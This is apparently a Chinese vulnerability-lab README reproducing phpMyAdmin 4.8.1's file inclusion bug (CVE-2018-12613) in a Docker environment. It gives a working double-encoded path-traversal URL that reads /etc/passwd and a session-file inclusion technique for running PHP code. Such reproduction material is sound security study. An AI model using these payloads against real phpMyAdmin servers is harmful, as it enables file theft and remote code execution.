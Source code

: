 # phpmyadmin 4.8.1 远程文件包含漏洞（CVE-2018-12613）

phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。其index.php中存在一处文件包含逻辑，通过二次编码即可绕过检查，造成远程文件包含漏洞。

参考文档：

- https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog
- https://www.phpmyadmin.net/security/PMASA-2018-4/

## 漏洞环境

执行如下命令，启动phpmyadmin 4.8.1：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`，即可进入phpmyadmin。配置的是“config”模式，所以无需输入密码，直接登录test账户。

## 漏洞复现

访问`http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd`，可见`/etc/passwd`被读取，说明文件包含漏洞存在：

![](1.png)

利用方式也比较简单，可以执行一下`SELECT '<?=phpinfo()?>';`，然后查看自己的sessionid（cookie中phpMyAdmin的值），然后包含session文件即可：

![](2.png)